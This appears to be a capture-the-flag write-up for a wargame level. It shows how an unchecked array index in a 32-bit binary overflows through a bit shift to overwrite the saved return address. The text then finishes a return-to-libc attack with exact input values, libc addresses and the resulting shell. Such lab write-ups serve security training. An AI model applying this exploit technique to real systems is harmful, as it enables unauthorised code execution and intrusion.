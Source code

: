 # Overflow bypassing array indexes

see source.c

## Analysis

By analysing the binary with noticed something strange on the check for the index of the array:
```
(i - (((i * 0xaaaaaaab) >> 1) * 3)) == 0
```
With a bit of research we discovered that it's a checker for multiple.
Then for storing values, the program is using: `i << 2` without any further check. That mean we can rewrite eip if we aim high enough. Unfortunately we noticed that the right value to rewrite eip was `114` and it doesn't pass the previous check. So we have to find a high enough value that could pass the bit shift and isn't a multiple of 114 (and 3).

We manage to found that value by searching for values with python:
```
>>> 0b01000000000000000000000001110010
1073741938
```
`1073741938` is perfect ! Then we just have to put a return-to-libc at eip on `system`, and put `/bin/sh` on ebp.
Find right adresses:
```
(gdb) print system
0xf7e6aed0
(gdb) find 0xf7e6aed0, +999999999, "/bin/sh"
0xf7f897ec
```

## Exploit

```
[...]
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```
